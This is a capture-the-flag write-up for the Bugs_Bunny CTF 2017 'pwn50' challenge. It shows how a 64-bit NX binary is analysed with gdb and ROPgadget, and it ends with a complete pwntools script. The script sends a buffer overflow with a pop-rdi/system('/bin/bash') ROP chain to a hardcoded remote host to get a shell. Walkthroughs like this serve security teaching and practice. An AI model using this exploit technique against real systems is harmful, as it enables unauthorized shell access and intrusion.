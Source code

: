 ```yaml
---
title: Bugs_Bunny CTF 2017 -Pwn50
subtitle: Walkthrough the Solution of Pwn50 challenge
date: 2017-03-20
tags: ["Posts",Bugs_bunny CTF", "Pwn"]
---
```




Hello guys, Welcome to my first writeup.


challenge: **pwn50**


we are given a binary and asked to pwn. 


My general procedure is to examine for `BOF, FSB`.   
First i run the binary  
Then use `objdump` to see the functions and the calls  
Then use `gdb-peda` to analyse the flow and registers and stacks.


Now, lets examine it.  

* file pwn50 :

![image](/img/pwn50/1.png)

* strings pwn50 :

![image](/img/pwn50/2.png)

* checksec pwn50 :

![image](/img/pwn50/3.png)


Information gathered:  
&nbsp;&nbsp;Its a 64-bit binary with NX enabled and the elf contains `"/bin/bash"`

why it matters:

* 64-bit		:	Parameters have to be passed in registers. Register's size is 64-bit (obvious :P)  

* NX-enabled 	:   Typical shellcode on stack wont work as the Stack is no longer 

* Executable. Hence indicates the need for ROPping
`"/bin/bash"` : 	Cool, simplifies the challenge as the motive of the challenge is to shell.


Now run the binary.


![image](/img/pwn50/4.png)


On running the binary, it gets the input and runs fine but if its long gives segfault.
Ok, its just a 50 point, So typical Buffer Overflow.
So, i proceed to find the offset to RIP with gdb.

![image](/img/pwn50/5.png)
---
![image](/img/pwn50/6.png)
---
![image](/img/pwn50/7.png)


Cool, The RBP is at `offset 48`, Hence RIP at 56(48+8).


Now, lets start planning the exploit:
1. fill with "A"s upto RIP.
2. get a pointer to `"/bin/bash"` 
3. pop it into rdi
4. call system
5. send the payload ofcourse


Now, what informations we need to do it:  
1. Offset to `RIP`  #have it
2. Rop gadget: `pop rdi;` ret #have to get it
3. Pointer to `"/bin/bash"`	#have to get it
4. Call to `System()`			#have to get it

In 32-bit architecture, the parameter can be passed by placing in stack. 
But in 64-bit, it has to be popped into registers, the first parameter into rdi.

Now, to gather the information we need:

1).Rop gadget:  
`ROPgadget --binary pwn50 | grep pop| grep rdi`

![image](/img/pwn50/8.png)

2).Pointer to `"/bin/bash"` :  
pwntools come to the rescue. 
![image](/img/pwn50/9.png)

		I showed another way to find the address of the gadgets with pwntools

3). `objdump -d pwn50 | grep call | grep system`

![image](/img/pwn50/10.png)

Final exploit:  



```python

from pwn import *

elf=ELF('pwn50')
pop_ret=0x400743
bin_bash=0x400773
call_system=0x4006c9

payload="A"*48+"B"*8
payload+=p64(pop_ret)
payload+=p64(bin_bash)
payload+=p64(call_system)

r=remote('54.67.102.66','5251')
r.send(payload)
r.interactive()

#cat /home/pwn50/flag
#Bugs_Bunny{lool_cool_stuf_even_its_old!!!!!}

```

